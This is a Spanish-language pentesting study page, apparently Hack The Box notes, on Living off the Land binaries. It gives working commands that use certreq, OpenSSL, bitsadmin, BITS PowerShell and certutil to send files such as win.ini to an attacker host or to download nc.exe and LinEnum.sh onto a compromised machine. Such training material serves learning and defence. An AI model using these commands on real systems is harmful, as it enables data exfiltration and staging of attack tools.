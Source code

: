 # Living off The Land

El término **"Living off the land"** fue acuñado por **Christopher Campbell** (@obscuresec) y **Matt Graeber** (@mattifestation) en **DerbyCon 3**.

El término **LOLBins** (Living off the Land Binaries) surgió de una discusión en Twitter sobre cómo llamar a los binarios que un atacante puede usar para realizar acciones más allá de su propósito original. Actualmente, hay dos sitios web que agregan información sobre los binarios Living off the Land:

* **LOLBAS Project** para binarios de Windows
* **GTFOBins** para binarios de Linux

Los binarios de Living off the Land pueden usarse para realizar funciones como:

* Descargar archivos
* Subir archivos
* Ejecución de comandos
* Leer archivos
* Escribir archivos
* Evadir mecanismos de seguridad

Esta sección se centrará en el uso de los proyectos **LOLBAS** y **GTFOBins** y proporcionará ejemplos de funciones de descarga y carga en sistemas Windows y Linux.

## Usando los Proyectos LOLBAS y GTFOBins

Los sitios web de **LOLBAS** para Windows y **GTFOBins** para Linux nos permiten buscar binarios que pueden ser utilizados para diferentes funciones.

### **LOLBAS**

Para buscar funciones de descarga y carga en LOLBAS, podemos utilizar las rutas `/download` o `/upload`.

**Ejemplo con CertReq.exe:**

Necesitamos escuchar en un puerto en nuestro host de ataque usando **Netcat** y luego ejecutar **certreq.exe** para subir un archivo.

<figure><img src="../../.gitbook/assets/lolbas_upload.jpg" alt=""><figcaption></figcaption></figure>

### **Subir win.ini a nuestro Pwnbox**

```bash
C:\htb> certreq.exe -Post -config http://192.168.49.128:8000/ c:\windows\win.ini
```

_Error potencial:_

```
Certificate Request Processor: The operation timed out 0x80072ee2 (WinHttp: 12002 ERROR_WINHTTP_TIMEOUT)
```

Esto enviará el archivo a nuestra sesión de Netcat, donde podemos copiar y pegar su contenido.

### **Archivo recibido en nuestra sesión de Netcat**

```bash
sherlock28@htb[/htb]$ sudo nc -lvnp 8000
```

```
listening on [any] 8000 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
Content-Length: 92
Host: 192.168.49.128:8000

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Si obtenemos un error al ejecutar **certreq.exe**, es posible que la versión que usamos no contenga el parámetro **-Post**. Se puede descargar una versión actualizada e intentarlo de nuevo.

## **GTFOBins**

Para buscar funciones de descarga y carga en **GTFOBins** para binarios de Linux, podemos usar `+file download` o `+file upload`.

**Ejemplo con OpenSSL:**

**OpenSSL** es frecuentemente instalado y utilizado por administradores de sistemas para generar certificados de seguridad, entre otras tareas. **OpenSSL** puede ser usado para enviar archivos de manera similar a **Netcat**.

### **Crear un Certificado en nuestro Pwnbox**

```bash
sherlock28@htb[/htb]$ openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Generar una clave privada RSA:

```
Generating a RSA private key
.......................................................................................................+++++
................+++++
writing new private key to 'key.pem'
-----
```

### **Iniciar el Servidor en nuestro Pwnbox**

```bash
sherlock28@htb[/htb]$ openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Con el servidor en ejecución, podemos descargar el archivo desde la máquina comprometida.

### **Descargar un Archivo desde la Máquina Comprometida**

```bash
sherlock28@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Otras Herramientas Comunes de Living off the Land

### **Función de Descarga de Bitsadmin**

El **Background Intelligent Transfer Service** (**BITS**) puede usarse para descargar archivos desde sitios **HTTP** y comparticiones **SMB**. BITS gestiona la utilización del host y la red para minimizar el impacto en el trabajo del usuario.

### **Descargar Archivos con Bitsadmin**

```bash
PS C:\htb> bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

**PowerShell** también permite interactuar con **BITS**, habilitando descargas y subidas de archivos, soporte de credenciales y el uso de servidores proxy especificados.

**Descarga con PowerShell**

```bash
PS C:\htb> Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

## Certutil

**Casey Smith** (@subTee) descubrió que **Certutil** puede usarse para descargar archivos arbitrarios. Está disponible en todas las versiones de Windows y ha sido una técnica popular de transferencia de archivos, sirviendo como una especie de **wget** para Windows. Sin embargo, actualmente, la interfaz **AMSI** detecta esto como un uso malicioso de **Certutil**.

**Descargar un Archivo con Certutil**

```bash
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```
